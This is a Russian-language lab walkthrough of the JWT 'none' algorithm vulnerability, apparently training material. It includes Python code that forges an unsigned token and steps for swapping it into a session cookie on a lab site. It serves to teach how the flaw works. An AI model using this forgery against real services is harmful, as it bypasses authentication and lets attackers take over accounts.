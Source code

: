 В качестве алгоритма подписи может поддерживаться алгоритм `None` (отсутствие подписи). `None` алгоритм на самом деле ничего не подписывает, в данном случае `Signature` часть JWT токена становится пустой. Все это позволяет менять содержимое токена без каких либо последствий.

Уязвимости могут быть подвержены утсраевшие библиотеки, т.к. о проблеме писали в 2015 году и большинство JWT-библиотек были пофикшены.

## Эксплуатация

### Шаг 1
 
Генерируем JWT токен, у которого в заголовке указан алгоритм `None` и `Signature` часть пустая. Для этого можно использовать следующий код.

```python
import base64

def b64urlencode(data):
    return base64.b64encode(data.encode('ascii')).decode('ascii').replace('+', '-').replace('/', '_').replace('=', '')

print('%s.%s' % (
        b64urlencode('{"typ":"JWT","alg":"none"}'), # Header with none
        b64urlencode('{"username":"user","is_admin":false}'), ) # Payload
)
```

Полученный JWT токен
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.
```

### Шаг 2

Заходим на http://jwt_insecure.lab/index_3 и меняем в заголовке запроса значение cookie session на сгенерированный токен.

Исходный запрос

![](img/utp_1.png)
